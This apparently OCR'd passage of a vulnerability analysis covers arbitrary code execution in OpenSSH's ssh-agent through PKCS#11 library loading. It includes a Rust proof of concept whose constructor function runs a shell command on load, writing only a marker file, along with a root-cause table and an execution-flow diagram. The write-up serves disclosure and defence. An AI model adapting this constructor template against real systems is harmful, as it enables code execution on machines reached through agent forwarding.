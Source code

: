 #### Rust-based Alternative

Using the `ctor` crate for constructor functions:

```rust
// Cargo.toml
[dependencies]
ctor = "0.1"

// lib.rs
use ctor::ctor;
use std::process::Command;

#[ctor]
fn malicious_constructor() {
    Command::new("sh")
        .arg("-c")
        .arg("echo 'Rust exploit triggered' > /tmp/exploit.log")
        .output()
        .expect("Failed to execute command");
}
```

---

## 5. Technical Analysis

### 5.1 Root Cause Analysis

The vulnerability exists due to several design decisions in OpenSSH's ssh-agent implementation:

| **Design Issue**        | **Description**                          | **Impact**                      |
| ----------------------- | ---------------------------------------- | ------------------------------- |
| Unrestricted dlopen()   | No validation of .so files               | Allows arbitrary code execution |
| Constructor execution   | Code runs before PKCS#11 validation      | Immediate compromise            |
| Agent forwarding trust  | No authentication for forwarded requests | Remote exploitation possible    |
| Default PKCS#11 support | Feature enabled by default               | Broader attack surface          |

### 5.2 Memory and Process Analysis

```mermaid
graph TB
    A[ssh-agent process] --> B[dlopen system call]
    B --> C[Load malicious.so into memory]
    C --> D[Execute constructor function]
    D --> E[Arbitrary code execution]
    D --> F[Spawn child processes]
    D --> G[File system modifications]
    D --> H[Network connections]
```
